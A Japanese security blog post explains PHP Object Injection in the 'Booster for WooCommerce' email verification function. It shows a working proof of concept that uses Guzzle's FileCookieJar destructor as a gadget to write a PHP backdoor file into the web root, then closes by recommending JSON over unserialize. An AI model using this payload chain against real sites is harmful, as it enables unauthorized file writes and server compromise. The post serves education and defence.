





## :spy: PHP Object Injection

[OWSAP](https://www.owasp.org/index.php/PHP_Object_Injection)によると、PHP Object Injectionは以下のように記載されています。

>PHP Object Injection is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope. 

要約すると、例えばcookieにserialize関数でシリアル化したデータを書き込んで、サーバ側で受け取る時はunserialize関数でオブジェクトに復元しているような処理がある場合に、攻撃者によって不正に操作されたデータを復元してしまい、ファイルの改ざんやバックドアを仕込むなどの攻撃をされてしまう脆弱性になります。徳丸先生のサイトにサンプルコード付きで分かりやすい解説がありますのでPHP Object Injectionを初めて聞いたという方はそちらをご覧ください。

[安全でないデシリアライゼーション(Insecure Deserialization)入門 ](https://blog.tokumaru.org/2017/09/introduction-to-object-injection.html)

今回ご紹介するPHP Object Injectionは、「Booster for WooCommerce」というプラグインで見つかったものです。このプラグインはWooCommerceに様々な機能を追加してくれるのですが、その中のユーザーのEメール認証機能に脆弱性がありました。

では、問題のあった箇所を見てみましょう。

```php
function process_email_verification(){
  if ( isset( $_GET['wcj_verify_email'] ) ) {
    $data = unserialize( base64_decode( $_GET['wcj_verify_email'] ) );
    if ( get_user_meta( $data['id'], 'wcj_activation_code', true ) == $data['code'] ) {
      update_user_meta( $data['id'], 'wcj_is_activated', '1' );
      wc_add_notice( do_shortcode( get_option( 'wcj_emails_verification_success_message',
        __( '<strong>Success:</strong> Your account has been activated!', 'woocommerce-jetpack' ) ) ) );
```

この関数は、メールで送った認証用URLにユーザーがアクセスした場合に実行される関数で、GETパラメータとして```wcj_verify_email```というアクティベーションコードを受け取っています。そして、受け取ったパラメータをそのまま```unserialize```で復元しています。つまり、攻撃者は以下のような形で簡単に攻撃することができます。

```
http://xxxxxxxxxxxx/?wcj_verify_email=（不正に操作されたデータ）
```

ただ、処理を見ると復元したデータからidとcodeを取りだしているだけなので、WordPressのクラスを復元させたところで攻撃は難しそうです。```__wakeup```や```__destruct```でWordPress内のクラスやこのプラグイン内のクラスをgrepしてみましたが、特に攻撃に使えそうなクラスは見つかりませんでした。

ただし、他にプラグインを入れていてそれが利用できる場合もあります。いろいろ探したところ「Constant Contact Forms」というプラグインを入れると攻撃ができたのでご紹介したいと思います。このプラグインはConstant ContactというマーケティングツールのWordPress用プラグインで、このプラグイン自体に脆弱性がある訳ではないのですが、このプラグインに存在するクラスの一つが攻撃に利用できます。

このプラグインが利用しているサードパーティ製ライブラリが以下のように存在しており、composerのautoloadで動的に呼び出すことができるようになっています。



そして、ここで利用するのが「Guzzle」というよく利用されているHTTPクライアントライブラリです。このライブラリの中に```FileCookieJar```というクラスがあるのですが、コードを見ると```__destruct```が以下のように定義されています。

```php
public function __destruct()
{
  $this->save($this->filename);
}

public function save($filename)
{
  $json = [];
  foreach ($this as $cookie) {
    if ($cookie->getExpires() && !$cookie->getDiscard()) {
      $json[] = $cookie->toArray();
    }
  }

  if (false === file_put_contents($filename, json_encode($json))) {
    // @codeCoverageIgnoreStart
    throw new \RuntimeException("Unable to save file {$filename}");
    // @codeCoverageIgnoreEnd
  }
}
```

デストラクタが呼ばれたタイミングでファイルを出力しているのが分かるかと思います。では、これを利用して悪意のあるデータを作ってみたいと思います。まず、Guzzleを用意した環境で以下のようなコードを書き、シリアライズ化したデータを出力します。

```php
$obj = new GuzzleHttp\Cookie\FileCookieJar('/var/wwww/html/backdoor.php');
$payload = '<?php echo phpinfo(); ?>';
$obj->setCookie(new GuzzleHttp\Cookie\SetCookie([
  'Name' => 'hoge',
  'Value' => 'hoge',
  'Domain' => $payload,
  'Expires' => time()
]));
echo base64_encode(serialize(new ArrayObject($obj)));
```

そうすると以下のようなデータが得られます。



そうしたら、このデータをwcj_verify_emailパラメータにセットしてリクエストを送ってみます。



idとcodeがないのでNoticeが出ましたがトップページが返って来ました。次に/var/wwww/html/を見てみます。



backdoor.phpというファイルが作成されました。ファイルの中を見ると以下のようになっています。

```php
[{"Name":"hoge","Value":"hoge","Domain":"<?php echo phpinfo(); ?>","Path":"\/","Max-Age":null,"Expires":1517837122,"Secure":false,"Discard":false,"HttpOnly":false}]
```

cookieデータが出力されていますが、Domainの部分にphpコードがあるのが分かるかと思います。では、backdoor.phpにアクセスしてみます。



このような形でphpinfoが表示されてしまいました。PHP Object Injectionが非常に危険な脆弱性であるということがお分かり頂けたかと思います。PHPのunserialize関数のマニュアルには以下のように記載されています。

http://php.net/manual/ja/function.unserialize.php

>**警告** allowed_classes の options の値にかかわらず、 ユーザーからの入力をそのまま unserialize() に渡してはいけません。 アンシリアライズの時には、オブジェクトのインスタンス生成やオートローディングなどで コードが実行されることがあり、悪意のあるユーザーがこれを悪用するかもしれないからです。 シリアル化したデータをユーザーに渡す必要がある場合は、安全で標準的なデータ交換フォーマットである JSON などを使うようにしましょう。 json_decode() および json_encode() を利用します。 

マニュアルに記載されていうように```json_decode```および```json_encode```を使うようにしてください。

## まとめ
今回も前回と同様に修正前後のソースコードを比較しながら一つひとつ検証しましたが、実際にどういった攻撃が可能なのか攻撃者目線で考えてみると新しい発見があり大変勉強になりました。皆さんも機会があれば、さらに深く脆弱性について考えてみてはいかがでしょうか？（内容に間違いなどありましたらご指摘頂けると幸いです）
